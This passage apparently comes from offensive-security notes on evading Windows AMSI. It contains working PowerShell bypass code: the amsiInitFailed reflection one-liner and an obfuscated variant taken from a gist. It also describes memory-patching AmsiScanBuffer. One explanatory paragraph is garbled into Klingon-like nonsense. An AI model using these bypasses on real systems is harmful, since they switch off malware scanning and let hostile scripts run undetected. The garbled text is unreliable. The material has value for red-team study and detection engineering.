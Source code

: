 Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

There are a couple of ways to get around AMSI:

* **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

* **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**

Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [Matt Graeber](https://twitter.com/mattifestation) and Microsoft has developed a signature to prevent wider usage.

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

ghItlh 'oH powershell code line vItlhutlh AMSI unusable for powershell process. AMSI 'e' vItlhutlh, so modification needed 'e' vItlhutlh technique vIlo'laH.

[GitHub Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) vItlhutlh modified AMSI bypass.
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/\_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E\_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.
